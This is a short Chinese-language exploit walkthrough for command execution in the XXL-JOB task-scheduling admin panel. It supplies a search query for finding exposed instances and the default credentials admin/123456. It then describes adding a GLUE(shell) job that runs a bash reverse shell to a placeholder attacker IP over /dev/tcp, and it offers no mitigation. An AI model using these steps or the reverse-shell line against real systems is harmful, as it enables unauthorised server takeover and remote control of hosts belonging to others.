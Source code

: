 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

# XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心"
```

## 漏洞复现

登录后台增加一个任务

- 默认口令 admin/123456

![](/images/202202101914314.png)

- 注意运行模式需要为 GLUE(shell)

![](/images/202202101915543.png)

点击 GLUE IDE编辑脚本



![](/images/202202101915236.png)



![](/images/202202101915343.png)



执行探测出网，和任务调用是否可执行



反弹一个shell



```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```



![](/images/202202101915912.png)

